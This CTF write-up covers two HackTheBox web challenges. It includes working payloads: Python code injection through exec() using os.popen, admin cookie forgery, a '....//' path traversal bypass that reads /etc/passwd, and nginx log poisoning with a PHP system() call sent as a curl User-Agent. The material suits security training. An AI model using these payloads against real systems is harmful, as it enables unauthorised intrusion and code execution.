 # HackTheBox Ambassadors CTF Writeup

## Web Challenges

### Interdimensional Calculator

This was a pretty easy challenge in terms of difficulty and is very beginner oriented.

Initially we arrive at a homepage seemingly containing nothing. But on inspecting the HTML of the page we can find the /debug endpoint.

The /debug endpoint simply contains the source code of the webserver.

Source Code:
```python
from flask import Flask, Response, request, render_template, request
from random import choice, randint
from string import lowercase
from functools import wraps

app = Flask(__name__)

def calc(recipe):
	global garage
	garage = {}
	try: exec(recipe, garage)
	except: pass

def GCR(func): # Great Calculator of the observable universe and it's infinite timelines
	@wraps(func)
	def federation(*args, **kwargs):
		ingredient = ''.join(choice(lowercase) for _ in range(10))
		recipe = '%s = %s' % (ingredient, ''.join(map(str, [randint(1, 69), choice(['+', '-', '*']), randint(1,69)])))

		if request.method == 'POST':
			ingredient = request.form.get('ingredient', '')
			recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))

		calc(recipe)

		if garage.get(ingredient, ''):
			return render_template('index.html', calculations=garage[ingredient])

		return func(*args, **kwargs)
	return federation

@app.route('/', methods=['GET', 'POST'])
@GCR
def index():
	return render_template('index.html')

@app.route('/debug')
def debug():
	return Response(open(__file__).read(), mimetype='text/plain')

if __name__ == '__main__':
	app.run('0.0.0.0', port=1337)
```

Here we can see the exec() function used to evaluate the result. We can use this to exploit command injection and get the flag.

So the final request we can send will be like this:
```
POST / HTTP/1.1
Host: host:port
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 71

ingredient=dummy&measurements=__import__('os').popen('cat+flag').read()
```

This yields the flag.

### Broken Production

We are greeted by a login page so let's log in. 

Now there is seemingly no lead on the homepage or its source code. So let's check the cookies. Also we are provided with the source code so that obviously helps.

This is the source code to SessionHandler.php
```php
<?php
class SessionHandler
{
    public function __construct()
    {
        if (!empty($_COOKIE['PHPSESSID'])){
            $this->cookie = $_COOKIE['PHPSESSID'];
            $this->load();
        }
    }

    public function login($username)
    {
        setcookie('PHPSESSID', base64_encode(json_encode([
            'username' => $username
        ])), time()+1333337, '/');
    }

    public function load()
    {
        $this->data = json_decode(base64_decode($this->cookie));
    }

    public function isLoggedIn()
    {
        return !is_null($this->data->username);
    }

    public function isAdmin()
    {
        return $this->data->username === 'admin';
    }

    public function getUsername()
    {
        return $this->data->username;
    }

    public function distroy()
    {
        unset($_COOKIE['PHPSESSID']);
        setcookie('PHPSESSID', '', time() - 3600, '/');
    }
}
```

As you can see, the cookie generation mechanism is very weak as it simply base64 encodes this payload `{"username":<your_username>"}` into the session id. So we can easily spoof the admin cookie here by base64 encoding this: `{"username":"admin"}`.

That gives us this: `eyJ1c2VybmFtZSI6ImFkbWluIn0`

Replace this cookie in your browser and you can reach the admin panel. Here we can use 3 utilities:
1. logs.php
2. tickets.php
3. todo.php

All of this is controlled by the util parameter in the homepage like this:
```
http://host:port/?util=logs.php
```

Now just by seeing this I was pretty sure our method of gaining RCE was via log poisoning. But how?

This util parameter has some protections so let's see what they are from the source code.

This is what I found in views/admin.php

```php
if (isset($_GET['util']))
        $utilFile = $_GET['util'];
        $utilFile = str_replace("../","", $utilFile);

```

There we have it, a classic case of non-recursive replacing of strings. All it does is to check for any instance of `../` in a string and replace it with empty string. So to get the `../` of our desires all we do is send `....//` in its place. This ends up replacing the `../`, leaving behind another `../` that stays in the payload. So all we really need to do to bypass this is to send this payload:
`http://host:port/?util=....//....//....//....//....//....//etc/passwd`. 

This allows us to exploit an LFI.

Now this puts the pieces together for us to gain RCE. So we know that the log file is located at `/var/log/nginx/access.log`. So we'll use make a request to the server by changing the `User-Agent` header to some PHP code and then use the LFI to get it to actually execute. So the final exploitation steps look something like this:
1. Send this command `curl -A "<?php system('cat /flag*'); ?>" http://host:port/`
2. Then visit this page: `http://host:port/?util=....//....//....//....//....//....//var/log/nginx/access.log`. 

You should see your flag there :).

